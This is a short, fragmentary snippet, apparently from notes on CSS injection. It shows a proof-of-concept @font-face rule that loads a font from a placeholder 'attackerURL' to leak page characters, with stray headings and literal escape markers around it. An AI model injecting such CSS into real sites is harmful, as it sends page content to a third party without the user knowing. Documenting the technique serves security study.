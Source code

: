 # css-injection
<h1>CRLF</h1>  \n


>@font-face{ \n
> font-family:poc; \n
> src: url(attackerURL?C); \n
>} \n
>#p1{ \n
> font-family:poc; \n
>} \n
